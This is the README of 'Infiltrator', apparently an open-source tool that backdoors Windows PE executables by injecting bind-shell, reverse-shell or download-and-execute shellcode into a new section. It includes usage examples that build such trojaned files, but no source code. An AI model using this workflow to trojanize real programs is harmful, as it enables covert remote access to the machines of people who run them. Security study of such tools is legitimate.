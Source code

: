 Infiltrator
===========

Infiltrator 0.1

License:

  Infiltrator by Saif El-Sherei is licensed under the Creative Commons Attribution-NonCommercial 3.0 Unported License. To view a copy of this license, visit http://creativecommons.org/licenses/by-nc/3.0/.
  
Disclaimer:

	This Tool is for learning & Demonstration only. the author is not responsible for any misuse of this code or tool. 
	
Introduction:

	Intifltrator is my first c project (so dont be so harsh :D). It is a PE Executable backdoor tool. i.e. it inserts payloads in exe files so the exe will function normally and execute our own code through it.
the working model is as follows.

 read input PE IMAGE_DOS_HEADERS --> read input PE IMAGE_NET_HEADERS --> read PE IMAGE_SECTION_HEADER list --> 	add new IMAGE_SECTION_HEADER -- > increase Number of Sections in IMAGE_NT_HEADER.File Header.NumberOfSections -->
increase ImageSize in IMAGE_NT_HEADER.OptionalHeader.ImageSize --> add rest of PE file --> write payload in our new section --> write to new PE file 

Refrences:

https://www.corelan.be/index.php/2010/02/25/exploit-writing-tutorial-part-9-introduction-to-win32-shellcoding/
http://win32assembly.programminghorizon.com
http://en.wikibooks.org/wiki/X86_Disassembly/Windows_Executable_Files#MS-DOS_header
http://www.sunshine2k.de/reversing/tuts/tut_addsec.htm
http://msdn.microsoft.com/en-us/library/ms809762.aspx
http://www.codereversing.com/blog/?p=92
http://www.alex-ionescu.com/part1.pdf

Credits:

		[*] corelanc0d3r "https://www.corelan.be".
				"Thanks for the insight on the threaded shellcode & amazing tutorials"
		[*] Sherif El deeb "http://eldeeb.net/wrdprs/".
				"Thanks for the continous motovation, inspiration, & help through out this"
		[*] Metasploit Team.
				" Thanks for the amazingly well documented project metasploit framework"

Author:

		[*] Saif El-Sherei 	* website: "http://www.elsherei.com" 
							* Twitter: @saif_sherei
							* email: saif.elsherei@gmail.com
Features:

		[*] Three Payload Types (bind tcp, reverse tcp, download and execute).
		[*] Choose between threaded shellcode or blocking shellcode.
		[*] specify shellcode options; no need for hardcoding (see usage below).
		[*] PE executable works normaly without any issues.
Todo:

		[*] Payload encoding.
Usage:

 Infiltrator -i [INPUT EXE] -o [OUTPUT EXE] -k (threaded) or -s (Normal) [type]
                 -p [PORT] -h [HOST] -u [URL] -f [URL path] -of [output file]

[*] Example:

- infiltrator -i "input.exe" -o "output.exe" -k "reverse" -p 1234 -h "127.0.0.1"
- infiltrator -i "input.exe" -o "output.exe" -k "bind" -p 1234 
- infiltrator -i "input.exe" -o "output.exe" -s "download & execute" -u www.test.com -f "test.exe" -of "test-output.exe"

[*] Options:

 -i   				INPUT file.exe (PE)
 
 -o 				OUPUT file.exe (PE)
 
 -s    				Normal Shellcode followed by one of the payload types
 
 -k     			Threaded Shellcode followed by one of the payload types

[*] Payload Types:

 "bind"                          	Bind payload Followed by payload options
 
 "reverse"                        	Connect Back Payload Followed by payload options
 
 "download & execute"     		Download & exec Payload Followed by payload options
 

[*] Payload Options:

 -p [port]                      	port to use (Bind or Reverse Payload)
 
 -h [host]                      	Host to connect to (Reverse Payload)
 
 -u [url]                      		URL to connect to (Download & Exec Payload)
 
 -f [path]                     		path to file to fetch (Download & Exec Payload)
 
 -of[output file]      			output file to Execute from  Download & Exec Payload
